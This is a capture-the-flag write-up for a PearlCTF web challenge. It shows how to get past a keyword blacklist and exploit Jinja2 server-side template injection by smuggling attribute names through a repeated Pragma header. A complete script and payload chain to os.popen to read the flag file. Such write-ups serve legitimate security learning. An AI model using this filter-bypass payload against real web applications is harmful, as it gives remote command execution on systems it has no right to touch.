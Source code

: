 # I am a web-noob

```
Maybe noobs create the most secure web applications. Or maybe not.
```

The blacklist included many of the common SSTI techniques such as `{{}}`, `join`, `config`, `items`. All these could be verified with the source given.

An interesting stack-overflow thread where the discussion of passing same header names with different values were considered.

One of the answers were this, using this methodology leads to a cleaner solution. This removes the effort of figuring out the indexes and other tedious work.
``` python

import collections
import requests
import html

def flatten_headers(headers):
    for (k, v) in list(headers.items()):
        if isinstance(v, collections.abc.Iterable):
           headers[k] = ','.join(v)
```

We can use the Pragma header for our convenience. 

```python

headers = {'Pragma': 
            ['__globals__', 
            '__getitem__', 
            '__builtins__', 
            '__import__', 
            'os', 
            'popen', 
            'cat flag.txt', 
            'read']}
flatten_headers(headers)

```

Our payload which uses the given function
```python

payload = "{% print(lipsum|attr(request.pragma.0)|attr(request.pragma.1)(request.pragma.2)|attr(request.pragma.1)(request.pragma.3)(request.pragma.4)|attr(request.pragma.5)(request.pragma.6)|attr(request.pragma.7)()) %}"

```

Our final script

```python

import collections
import requests
import html


def flatten_headers(headers):
    for (k, v) in list(headers.items()):
        if isinstance(v, collections.abc.Iterable):
           headers[k] = ','.join(v)

headers = {'Pragma': 
            ['__globals__', 
            '__getitem__', 
            '__builtins__', 
            '__import__', 
            'os', 
            'popen', 
            'cat flag.txt', 
            'read']}
flatten_headers(headers)

url = "https://noob-login.ctf.pearlctf.in/?user=" + payload
r = requests.get(url, headers=headers)
print(html.unescape(r.text))

```
The flag is `pearl{W4s_my_p4ge_s3cur3_en0ugh_f0r_y0u?}`

